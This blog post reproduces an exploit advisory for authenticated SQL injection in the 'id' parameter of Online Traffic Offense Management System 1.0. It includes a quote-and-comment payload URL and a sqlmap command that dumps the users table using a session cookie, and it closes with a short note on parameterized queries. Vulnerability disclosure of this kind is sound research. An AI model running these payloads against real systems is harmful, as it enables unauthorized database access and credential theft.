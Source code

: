 ```yaml
---
layout: post
title: Authenticated SQL Injection in Online Traffic Offense Management System 1.0
date: 2024-11-12 11:08 -0800
tag: [exploit-db]
category: [Vulnerability Research]
---
```


# Online Traffic Offense Management System 1.0 - 'id' SQL Injection (Authenticated)

**Exploit ID**: 50218  
**Author**: Justin White  
**Platform**: PHP  
**Date Published**: 2021-08-20  
**Vulnerable Application**: [Online Traffic Offense Management System 1.0](https://www.sourcecodester.com/php/14909/online-traffic-offense-management-system-php-free-source-code.html)

## Description

This vulnerability allows authenticated SQL Injection in the Online Traffic Offense Management System 1.0. By injecting SQL commands into the `id` parameter, attackers can access and manipulate the database.

## Vulnerable Parameters

- **id**: Located in `manage_driver` page.

## Proof of Concept (PoC)

To test this vulnerability, access the following URL:

`http://localhost/traffic_offense/admin/?page=drivers/manage_driver&id=4'--`

This input causes the application to throw errors, indicating that the `id` parameter is vulnerable to SQL Injection. You can also use `sqlmap` to automate the injection and retrieve data from the database.

``` bash
sqlmap -u "http://localhost/traffic_offense/admin/?page=drivers/manage_driver&id=4" --cookie="PHPSESSIONID=83ccd78474298cd9c3ad3def1f79f2ac" -D traffic_offense_db -T users --dump
```

## Vulnerable Code

The SQL query containing the `id` parameter is directly injectable. 

## Additional Information

- **Tested On**: Linux (Ubuntu 20.04) using LAMPP

## Remediation

Implement parameterized queries to ensure inputs are sanitized and SQL Injection is prevented.

[View this exploit on Exploit-DB](https://www.exploit-db.com/exploits/50218)
